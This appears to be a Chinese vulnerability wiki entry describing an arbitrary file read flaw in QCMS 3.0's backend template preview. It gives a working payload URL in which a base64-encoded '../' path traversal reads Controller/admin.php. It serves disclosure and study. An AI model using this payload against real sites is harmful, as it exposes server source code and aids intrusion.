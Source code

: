 QCMS 3.0 任意文件读取
=====================

一、漏洞简介
------------

二、漏洞影响
------------

QCMS 3.0

三、复现过程
------------

用seay扫了一下后发现的漏洞

漏洞在后台模板代码预览处，构造payload例如

    http://www.0-sec.org/backend/template/tempview/Li4vLi4vLi4vQ29udHJvbGxlci9hZG1pbi5waHA=.html

即可读取Controller文件下admin.php文件源码

![](/Users/aresx/Documents/VulWiki/.resource/QCMS3.0任意文件读取/media/rId24.png)

跟源码对比下，确实是读到了

![](/Users/aresx/Documents/VulWiki/.resource/QCMS3.0任意文件读取/media/rId25.png)

参考链接
--------

> https://xz.aliyun.com/t/7269
